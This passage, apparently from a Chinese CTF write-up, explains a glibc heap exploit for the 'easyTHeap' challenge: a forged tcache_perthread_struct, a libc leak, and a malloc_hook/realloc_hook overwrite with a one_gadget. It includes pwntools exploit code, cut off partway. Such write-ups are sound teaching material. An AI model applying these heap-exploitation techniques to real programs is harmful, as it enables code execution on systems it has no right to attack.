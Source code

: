 第三步，伪造tcache_perthread_struct结构体中的counts数组，这里我将其全部修改为上限7，随后再次释放大小为0x80的chunk即可放入unsortedbin并泄露地址了：

```plain
pd='\x07'*64
edit(4,pd)
delete(0)
show(0)
leak_addr=leak_address()
print hex(leak_addr)
libc_base=leak_addr-96-0x10-libc.sym['__malloc_hook']
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1607079177999-d2009860-1fd1-4ff4-b523-fedda194ed83.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1607079178023-67485569-47a0-4f5d-8880-daf17dab3905.png)

第四步，通过修改结构体中entries数组的第一个内容，即size=0x20的chunk的tcache Bin头，再次申请0x10的chunk可以申请到指定地址的chunk，实现任意地址写：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1607079178122-4f96dc5e-28d8-4033-b81c-a28ec1b1fae3.png)

但是这里受次数限制我们不能写入free_hook，checksec查看可以看到`Full RELRO`保护开启，无法写入函数的got表，malloc函数的参数又是我们自己写入的，无法写入`'/bin/sh'`字符串，所以我们只能向`malloc_hook`中写入one_gadget地址，但是这里将可用的one_gadget全部尝试后发现均不满足条件，于是我们必须利用`realloc——hook`，通过libc中`realloc`函数前一系列的抬栈操作来满足one_gadget可以使用的条件：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1607079178131-3b750aae-210b-4c26-9051-4354b1e1848e.png)

同时`realloc_hook`与`malloc_hook`地址是连续的：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1607079178293-c00ab9a7-c128-407b-b915-40bf0604075e.png)

因此我们劫持程序流至`realloc_hook`地址处，可以同时向两个hook地址中任意写，我们只需向`realloc_hook`中写入one_gadget，向`malloc_hook`中写入`realloc`地址加上适当的偏移（抬栈时push操作的次数不同，我们一般加上8即可），就可以在再次`malloc`时先去`realloc`函数处执行，抬栈后满足`one_gadget`的要求，再去执行`realloc_hook`中存放的`one_gadget`，进行getshell：

```plain
malloc_hook=libc_base+libc.sym['__malloc_hook']
realloc=libc_base+libc.sym['__libc_realloc']
one_gadget=0x10a38c+libc_base
edit(4,'\x07'*64+p64(malloc_hook-8))
add(0x10)#5
edit(5,p64(one_gadget)+p64(realloc+8))
add(0x10)#6
```

完整的exp如下：

```python
from pwn import *
#from LibcSearcher import LibcSearcher
context(log_level='debug',arch='amd64')
local=0
binary_name='./vn_pwn_easyTHeap'
if local:
    p=process("./"+binary_name)
    e=ELF("./"+binary_name)
    libc=e.libc
else:
    p=remote('node3.buuoj.cn',27084)
    e=ELF("./"+binary_name)
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
```